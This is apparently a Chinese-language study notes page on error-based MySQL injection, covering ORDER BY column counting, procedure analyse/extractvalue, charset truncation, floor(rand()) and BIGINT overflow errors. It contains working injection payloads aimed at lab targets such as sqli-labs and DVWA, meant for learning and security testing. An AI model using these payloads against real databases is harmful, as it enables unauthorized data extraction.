 盲注也可以借助正则 regexp，更有效率。  
注意：group by, order by, having 后面都可以接 and、or 。  

---------------------------------------------------------------------------------------------------------------

### 报错注入

#### order by 报错
注意这里的 order by 1，1 表示select 中的第一列，group by 1 同理。但 select 1, 2, 3 类似这些表示的是数字1，2，3。  
order by &#96;id&#96;,2,3 被反引号括起来的只能是具体列名。  
Finding how many columns in SELECT query by ORDER BY  
Finding column number by ORDER BY can speed up the UNION SQL Injection process.  

ORDER BY 1--  
ORDER BY 2--  
ORDER BY N-- so on  
Keep going until get an error. Error means you found the number of selected columns.  

Even though GROUP BY and ORDER BY have different funcionality in SQL, they both can be used in the exact same fashion to determine the number of columns in the query.  
1' GROUP BY 1,2,3,4,5--+	Unknown column '4' in 'group statement'  
1' ORDER BY 1,2,3,4,5--+	Unknown column '4' in 'order clause'  

先使用order by 找到select 语句的列数（可以使用二分查找缩短查找时间），遍历列位置替换成md5()，如 `union select 1,2,md5("123232"),4`，看返回是否是md5 函数执行之后的字符串，当满足某一列的类型是字符串时就会回显成功。  

#### order by limit 
所以如果注入点前面没有order by 关键字，就可以顺利的使用union 关键字，如果有只能用此种办法，但使用analyse()只能5.0.0<mysql<5.6.6的版本  
```
mysql> SELECT field FROM user WHERE id >0 ORDER BY id LIMIT 1,1 procedure analyse(extractvalue(rand(),
concat(0x3a,version())),1);
 
ERROR 1105 (HY000): XPATH syntax error: ':5.5.41-0ubuntu0.14.04.1'
```

#### 字符集问题
mysql 在存储数据的时候会根据当前数据库的字符集来校验数据，发现非法数据时会抛弃其后续数据。  
当表的字符集是utf8_general_ci 时，测试SQL：`Insert into table values (concat('ab', 0x80, 'cd'))`，因为0x80不是有效的UTF-8字符，所以只有ab被写入数据库中，cd会被截断。  
当表的字符集是gbk_chinese_ci 时，测试SQL：`Insert into table values (concat('ab', 0x8027, 'cd'))`，因为0x8027不是有效的gbk字符，所以只有ab被写入数据库中，cd会被截断。  

#### floor rand 报错
RAND() in a WHERE clause is re-evaluated every time the WHERE is executed.  
You cannot use a column with RAND() values in an ORDER BY clause, because ORDER BY would evaluate the column multiple times.  
也就是说在 group by 查询以及插入临时表时都会计算 rand()，如果两次结果不一样，就会出错。  
```
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' and 1=0 union select 1,count(*), 
concat((select email_id from emails where id=5),0x2a,floor(rand(0)*2))x from users group by x--+
```
#### bigint 报错
我们知道，如果一个查询成功返回，其返回值为0，所以对其进行逻辑非的话就会变成1，举例来说，如果我们对类似 `(select*from(select user())x)` 这样的查询进行逻辑非的话，返回值就是1，对 0 取反得到无符号的最大BIGINT值，1 减去最大 bigint 值导致 BIGINT value is out of range 错误。  
`http://localhost/dvwa/vulnerabilities/sqli/?id=1' or !(select*from(select user())x)-~0-- -&Submit=Submit#`
